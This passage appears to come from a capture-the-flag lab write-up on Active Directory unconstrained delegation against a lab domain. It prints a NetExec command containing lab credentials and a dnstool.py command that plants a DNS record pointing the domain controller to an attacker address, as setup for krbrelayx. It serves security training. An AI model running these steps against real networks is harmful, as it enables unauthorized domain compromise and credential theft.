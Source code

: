### Unconstrained Delegation

To do this we must first enable **TRUSTED_TO_AUTH** on our newly added computer account **aashwin$.**

![image.png](/assets/images/Delegate_VL/image%2025.png)

This can also be confirmed by NetExec.

```bash
nxc ldap delegate.vl -u 'n.thompson' -p 'KALEB_2341' --find-delegation
```

![image.png](/assets/images/Delegate_VL/image%2026.png)

We can refer to this great article on hacker.recipes

[https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained](https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained)

**We can also see that the signing is set to none means we can do unconstrained delegation.**

Now I will clone the repository from github for the unconstrained delegation.

[https://github.com/dirkjanm/krbrelayx.git](https://github.com/dirkjanm/krbrelayx.git)

Now we add a fake dns record so that the domain controller can talk to it using the [dnstool.py](http://dnstool.py) and check it that it is added or not.

```bash
python3 dnstool.py -u 'delegate.vl\aashwin$' -p 'aashwin10!' -dc-ip 10.129.242.110 -r aashwins29.delegate.vl -a add -d 10.10.14.20 -t A -dns-ip 10.129.242.110 dc1.delegate.vl
```

![image.png](/assets/images/Delegate_VL/image%2027.png)

We can check that the record is successfully added.
